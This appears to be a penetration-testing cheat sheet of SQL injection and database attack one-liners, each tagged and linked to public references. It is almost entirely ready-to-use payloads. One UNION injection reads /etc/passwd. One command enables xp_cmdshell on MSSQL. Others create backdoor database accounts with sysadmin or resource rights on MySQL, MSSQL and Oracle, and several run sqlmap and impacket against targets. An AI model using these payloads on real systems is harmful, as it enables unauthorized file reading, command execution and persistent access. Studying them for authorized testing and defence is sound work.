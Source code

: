 ### 1. Load a file with MYSQL
```
null union all select load_file('/etc/passwd')/*
```
**- web application,sql injection,mysql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheets
__________
### 2. enable xp_cmdshell
```
exec sp_configure 'xp_cmdshell', 1 go reconfigure
```
**- web application,sql injection,shell,mssql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
__________
### 3. oracle add user
```
create user victor identified by pass123 temporary tablespace temp default tablespace users;grant connect to victor;grant resource to victor;
```
**- web application,sql injection,Oracle**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
__________
### 4. mysql add user
```
insert into mysql.user (user, host, password) values ('victor', 'localhost', password('pass123'))
```
**- web application,sql injection,mysql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
__________
### 5. mssql add user
```
exec sp_addlogin 'victor', 'pass123';  exec sp_addsrvrolemember 'victor', 'sysadmin'
```
**- web application,sql injection,mssql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
__________
### 6. connect to mssql
```
tsql -S [IP] -U sa -P"[PASS]"
```
**- linux,mssql**
#### References:

https://linux.die.net/man/1/tsql
__________
### 7. connect to mssql
```
/opt/impacket/examples/mssqlclient.py [user]:[pass]@[ip] -port [port]
```
**- linux,mssql,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 8. SQLmap generic command
```
/opt/sqlmap/sqlmap.py --exclude-sysdbs --eta --is-dba  --current-user --current-db --hostname -o -r sql1.txt
```
**- sql injection**
#### References:

https://github.com/sqlmapproject/sqlmap/wiki/Usage
__________
### 9. Very Basic SQLI test in wp plugin
```
grep -ir wpdb . | egrep -i "get_r|insert|escape|query" | egrep "_GET|_POST|_REQUEST|\$" | grep --color wpdb.
```
**- web application,sql injection**
#### References:

https://codex.wordpress.org/Class_Reference/wpdb
__________
